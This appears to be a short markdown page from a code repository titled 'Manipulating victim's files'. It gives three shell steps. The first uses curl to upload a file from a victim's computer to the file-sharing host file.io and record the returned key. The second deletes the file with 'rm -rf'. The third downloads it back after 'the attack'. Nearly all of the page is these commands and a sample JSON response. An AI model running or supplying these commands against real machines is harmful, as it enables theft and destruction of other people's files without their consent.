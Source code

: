 # Manipulating victim's files

1. Run the following curl script and take note of the **KEY** it returns
    ```shell
    $ curl -X 'POST' \
        'https://file.io/' \
        -H 'accept: application/json' \
        -H 'Content-Type: multipart/form-data' \
        -F 'file=@FILE_NAME_GOES_HERE' \
        -F 'expires=DATETIME_IN_ISO8601_FORMAT' \
        -F 'maxDownloads=1' \
        -F 'autoDelete=true'
    ```

    Try to stick to the values above as other values may require you to pay for the service.
        
    Returns:
    ```jsonc
    {
        "success": true,
        "status": 200,
        "id": "f00c8350-38a3-11ed-9c58-b7e8b46498c9",
        "key": "dGic53MOudXn", // <-- KEY
        "path": "/",
        "nodeType": "file",
        "name": "Untitled.game",
        "title": null,
        "description": null,
        "size": 1584,
        "link": "https://file.io/dGic53MOudXn",
        "private": false,
        "expires": "2022-09-21T00:00:00.000Z",
        "downloads": 0,
        "maxDownloads": 1,
        "autoDelete": true,
        "planId": 0,
        "screeningStatus": "pending",
        "mimeType": "application/octet-stream",
        "created": "2022-09-20T05:20:27.640Z",
        "modified": "2022-09-20T05:20:27.640Z"
    }
    ```

2. Delete the files on the victim's computer
    ```shell
    $ rm -rf FILE_NAME_GOES_HERE
    ```

3. Download all the files after the attack with the following command
    ```shell
    $ curl -X 'GET' \
        'https://file.io/KEY' \
        -H 'accept: */*' \
        -o 'FILE_NAME_GOES_HERE'
    ```
